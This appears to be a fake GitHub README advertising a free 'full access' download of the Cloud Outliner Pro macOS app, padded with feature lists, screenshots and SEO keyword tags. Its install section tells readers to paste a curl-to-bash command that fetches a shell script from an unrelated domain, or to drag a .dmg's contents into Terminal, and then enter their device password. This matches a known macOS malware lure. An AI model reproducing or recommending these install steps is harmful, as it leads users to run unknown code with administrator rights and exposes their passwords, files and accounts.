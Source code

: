 <p align="center">
  <img src="https://i.ibb.co/9ksjt7nF/1619105403-cloudoutliner-logo.png" alt="Cloud Outliner Pro macOS Banner" />
</p>

<h1 align="center">Cloud Outliner Pro for macOS</h1>

<p align="center">
  📝 Create structured, collapsible outlines for notes, tasks, and ideas — with iCloud & Evernote sync.  
  <br><br>
  ✅ Native Apple Silicon Support  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/212" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CLOUD%20OUTLINER%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Cloud Outliner Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/7dk8Qp05/1619105829-cloudoutliner-screenshot-1-min.png" alt="Cloud Outliner macOS UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Cloud Outliner Pro for macOS?

**Cloud Outliner Pro for macOS** is a focused outliner and productivity tool that helps you structure your ideas, tasks, and lists into clean, collapsible outlines. It’s ideal for note-taking, project planning, and personal organization — all with full support for iCloud and Evernote syncing.

The intuitive interface allows quick editing with drag-and-drop reordering, checkboxes, color tags, and nesting. You can access your outlines across devices, or work fully offline in private mode.

Whether you're a student, writer, developer, or executive — Cloud Outliner Pro helps you turn messy thoughts into structured action plans.

---

## ✅ Why Choose Cloud Outliner Pro?

- 🗂️ **Collapsible Outlines & Hierarchies**  
- ☁️ **iCloud and Evernote Sync Options**  
- ✅ **Checklists and Bullet Modes**  
- 🖍️ **Color Coding and Tags for Context**  
- ⌨️ **Keyboard Shortcuts & Markdown Support**  
- 📱 **Cross-Device Editing (macOS & iOS)**  
- 🍎 **Apple Silicon Native (M1/M2/M3)**  
- 🛠️ **Works Fully Offline if Needed**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/pvBzdF6Q/1619105850-cloudoutliner-screenshot-2-min.png" alt="Collapsible Outline View Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/G3MWX1fS/1619105873-cloudoutliner-screenshot-3-min.png" alt="Task Organization with Tags Cloud Outliner" />
</p>

---

## 🚀 Key Features

- Fast outliner for tasks, thoughts, and plans  
- Drag-and-drop item reordering  
- Outline templates and export options  
- Built-in sync with iCloud and Evernote  
- Full keyboard control for writing flow  
- Tagging and checkbox modes  
- Local storage or cloud sync  
- Minimal UI with dark mode support

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Cloud Outliner manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Outline+Editor+%2F+Task+Manager-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Hierarchical+Notes+%26+Sync-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Cloud Outliner – Think in Structure

Thanks for using **Cloud Outliner Pro for macOS**.  
From brain-dump to blueprint — instantly.

---

## 🧭 Usage Context

This app is intended for individual planning, outlining, and idea structuring.  
It stores your data locally or syncs to iCloud/Evernote by choice.

No telemetry. No forced sync. Just clean outliners — your way.

---

## 🔍 Tags

```text
cloud outliner pro for mac download, hierarchical outliner macos, icloud synced task outliner mac, cloud outliner full version macbook, write collapsible notes mac app, outline based todo tool macbook pro, structured task planner for mac m1, markdown supported outline editor mac, cloud outliner pro apple silicon mac, drag and drop outliner macos, project plan outliner for mac, note organizer with sync mac, evernote linked outliner tool mac, cross device outliner app mac, best outline based task manager mac

